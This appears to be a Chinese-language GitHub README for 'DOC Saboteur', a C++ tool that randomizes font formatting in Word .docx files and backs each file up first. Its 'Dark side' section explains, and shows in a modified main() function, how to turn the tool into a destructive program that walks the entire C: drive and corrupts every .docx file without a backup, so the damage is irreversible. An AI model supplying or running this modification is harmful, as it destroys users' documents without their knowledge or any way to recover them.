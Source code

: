 ## Switch Language / 切换语言

- [English](README_en.md)
- [简体中文](README.md)
---

# DOC Saboteur (文档破坏者)

## 简介

DOC Saboteur 是一个有趣且实用的工具，专门设计用于随机化Word文档(`*.docx`)的格式属性，包括`字体大小`、`字体颜色`、`字体加粗`和`字体倾斜`。这个工具非常适合需要测试文档处理软件对不同格式容错能力的开发者，或者任何对Word文档格式随机化感兴趣的用户。

## 功能

- **格式属性随机化**：自动扫描程序根目录(或指定目录)下的所有Word文档(`*.docx`)，并对每个文件的文本格式进行随机化处理.
- **文件处理**：
  - **不支持中文文件名**：程序将自动检测中文文件名并重命名为非中文字符串，以保证处理过程无误。
  - **自动备份**：在进行任何修改前，自动将源文件备份到C盘的`doc_saboteur_backup`目录下，确保原数据安全。

## 使用指南

1. 将Word文档(`*.docx`)放入程序根目录下(默认配置)。
2. 运行DOC Saboteur程序。
3. 程序会自动扫描根目录下的所有Word文档，并进行格式随机化处理。
4. 处理完成后，可以在程序根目录下找到被修改的文档。
5. 原始文件将被安全备份到C盘的`doc_saboteur_backup`目录下。

## 注意事项

1. 确保C盘的`doc_saboteur_backup`目录存在且有足够的空间存储备份文件。
2. 程序目前不支持直接处理文件名为中文的文档，但会自动进行重命名处理。
3. 在使用本程序时，请确保你有足够的权限访问和修改指定目录下的文件。

## 代码编译环境
**系统环境**: `Windows10-x64`; `Visual Studio 2022`; `C++17`; 

**所需的库**: `Pugixml`; `libzip`; `zlib`;

## 黑暗面
你只需修改`main()`函数中的两行代码就能使它变成一个非常恶意的程序.
1. 修改`std::vector<std::string> file_list = op.find_docx_files("./");`代码,`op.find_docx_files("./")`中的`"./"`表示程序根目录,你可以将其改为某个盘符,例如`C:/`,这样程序会遍历查找并破坏C盘下的所有的`*.docx`文件.
1. 将`if (op.copy_file(*iter, "C:/doc_saboteur_backup/" + *iter) == true)`注释掉,这行代码的作用是在破坏文档前将其备份到`C:/doc_saboteur_backup/`中,如果注释掉则程序不会备份文档,那么对您的文档的破坏将不可逆!!!

####  以下是一个示例:

```c++
int main() {
    std::cout << "DOC Saboteur - v0.1;\nPowered by RMSHE - 2024.03.15;\n" << std::endl;

    try {
        std::vector<std::string> file_list = op.find_docx_files("C:/");
        for (auto iter = file_list.begin(); iter != file_list.end(); ++iter) {
                std::filesystem::path _docxPath_ = op.renameIfChinese(*iter);

                // 转换为 std::string
                std::string docxPathString = _docxPath_.string();

                // 获取 const char* 类型
                const char *docxPath = docxPathString.c_str();
                const char *docXmlPath = "word/document.xml";

                std::cout << docxPath << std::endl;

                std::string xmlContent = op.readZipFile(docxPath, docXmlPath);

                // 随机化处理
                std::string modifiedXml = randomizeFontPropertiesEnhanced(xmlContent);
                op.writeZipFile(docxPath, docXmlPath, modifiedXml);

                std::cout << "文档处理完成:" + *iter << std::endl;
            }
    } catch (const std::exception &e) {
        std::cerr << "发生错误: " << e.what() << std::endl;

        system("pause");
        return 1;
    }

    system("pause");
    return 0;
}
```

